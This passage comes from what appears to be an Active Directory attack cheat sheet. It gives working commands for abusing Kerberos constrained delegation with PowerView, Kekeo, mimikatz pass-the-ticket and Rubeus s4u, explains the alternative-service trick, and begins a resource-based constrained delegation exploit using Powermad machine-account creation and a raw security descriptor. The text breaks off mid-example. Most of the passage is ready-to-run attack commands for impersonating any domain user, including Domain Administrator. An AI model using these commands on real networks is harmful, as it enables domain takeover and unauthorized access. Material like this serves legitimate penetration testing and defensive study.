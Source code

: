 Using PowerView and Kekeo:

```
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

_ALTERNATIVE:_ Using Rubeus:

```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

Now we can access the service as the impersonated user!

**What if we have delegation rights for only a spesific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called “alternative service”. This allows us to request TGS tickets for other “alternative” services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

#### **Resource Based Constrained Delegation**

_WUT IS DIS?:_\
_TL;DR_\
_If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access._

Tools we are going to use:

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

```
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```